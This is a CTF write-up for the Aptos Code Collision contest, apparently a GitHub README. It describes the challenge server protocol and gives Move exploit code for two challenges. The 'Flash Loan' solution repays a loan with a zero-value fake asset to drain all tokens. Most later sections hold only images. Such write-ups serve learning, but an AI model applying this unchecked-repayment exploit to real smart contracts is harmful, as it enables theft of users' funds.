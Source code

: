 # Aptos Code Collision CTF Writeup by zeroc

I participated in the [Aptos Code Collision CTF](https://ctf.aptosfoundation.org/) and learned a lot as a beginner in aptos. Below are the detailed writeups for this game.

rank: 5

![](./images/rank.png)

## Basic

Figuring out the whole challenge framework of this game may help you solve the challenges more easily.

There will be a server listening on a specific port and you can interact with it by establishing tcp connection. In general, your final goal is to make the `is_solved` function in the challenge contract not abort, then the server will give you the flag.

The general interaction process is as follows:
* The server listens on a specific port and waits for the client to connect.
* Once the client connects, the server will prepare a local environment to emulate the execution of the challenge contract.
* The client needs to send the bytecode of solution contract to the server. The server will publish all the contracts and may call the `initialize` function of the challenge contract to initialize the environment.
* The server waits for a series of instructions in the form of `address::module::function` from the client. The server will call the corresponding function of the corresponding module in the corresponding address. When the `solve` function of the solution contract is called, the server will return the result to the client.

## Welcome

It's a checkin challenge, the `is_solved` function in challenge contract will return `true` if `challenge_status.is_solved` is `true`. And we can see that the `solve` function in challenge contract will set `challenge_status.is_solved` to `true`.

So we just need to call the `solve` function in the solution contract.

```move
module solution::exploit {
    use challenge::welcome;

    public entry fun solve(account: &signer) {
        welcome::solve(account);
    }
}
```

![](./images/1.png)

## Flash Loan

As the name of the challenge suggests, this challenge requires exploiting a vulnerability in the flash loan contract to solve it. So we first need to understand  all the functions in the challenge contract, especially the functions we can call directly.

* `initialize`: It will create a fungible asset named `JBZ` and mint 1337 tokens of the asset using the mint reference as the initial supply.
* `flash_loan`: Set the `challenge_status.loan` to `true` and return the `amount` of fungible asset.
* `repay`: Set the `challenge_status.loan` to `false` and deposit the `amount` of fungible asset back to the `challenger`.
* `is_solved`: if `challenge_status.loan` is `true` or the balance of `challenger` not equals to 0, then abort.

Our goal is to withdraw all the fungible assets and make `challenge_status.loan` to `false`. Cause the implementation of this contract is extremely simple, it hasn't any check for the FungibleAsset you pass to the `repay` function. So we can just use a fake FungibleAsset to repay the loan.

```move
module solution::exploit {
    use challenge::flash;
    use aptos_framework::primary_fungible_store;
    use aptos_framework::fungible_asset;

    public entry fun solve(account: &signer) {
        let fa = flash::flash_loan(account, 1337);
        let metadata = fungible_asset::asset_metadata(&fa);
        let zero = fungible_asset::zero(metadata);
        primary_fungible_store::deposit(@1338, fa);  
        flash::repay(account, zero);
    }
}
```

![](./images/2.png)

## U Can't Touch This



![](./images/3.png)

## super mario 32

![](./images/4.png)

## super mario 64

![](./images/5.png)

## Zero Knowledge Bug

![](./images/7.png)

## groth16

![](./images/6.png)

## sage

![](./images/8.png)

## Simple Swap

![](./images/9.png)